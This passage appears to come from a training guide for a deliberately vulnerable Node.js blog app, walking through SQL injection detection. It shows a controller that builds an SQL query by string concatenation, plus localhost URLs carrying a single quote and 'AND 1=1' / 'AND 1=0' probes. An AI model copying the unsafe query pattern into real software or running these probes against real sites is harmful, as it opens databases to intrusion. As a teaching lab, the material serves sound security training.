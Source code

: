 # (a) Testing the application for SQLi

**Tip for detecting the vulnerability**
```javascript
// controllers/ctlPost.js
// Check this code for function getPostById
// What is wrong with it?
var postId = req.params.postid;
var sql = "SELECT posts.id, title, body, date, tags, username, firstname, lastname, avatar "+
          "FROM posts INNER JOIN users ON posts.userId = users.id "+
          "WHERE posts.id = " +postId;
db.query(sql, function(err, post) { 
  ... 
}
```

Testing the app for finding SQL injections vulnerabilies is quiet simple:
you need to find every variable and check if it is escaped or not before passed to the db engine. Just add a single quote, like this:
```shell
http://localhost:8080/p/2/slug-name-post'
http://localhost:8080/p/2'/slug-name-post
```

You should get and error for response:
```javascript
{
  "status": "Error",
  "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1"
}
```

This error means that the variable is passed unescaped to the database, getting this query:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21'
```

You can also pass a **condition** that is **true** (1=1), like this:
```shell
http://localhost:8080/p/2 AND 1=1/slug-name-post
```

This should return the post (id=2) and the query looks like:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=1
```

Finally you can pass a **condition** that is **false** (1=0), like this:
```shell
http://localhost:8080/p/2 AND 1=0/slug-name-post
```

This should return and error. The query looks like this:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=0
```

The app is also vulnerable in other parts like login and search.
Is up to you to check them out.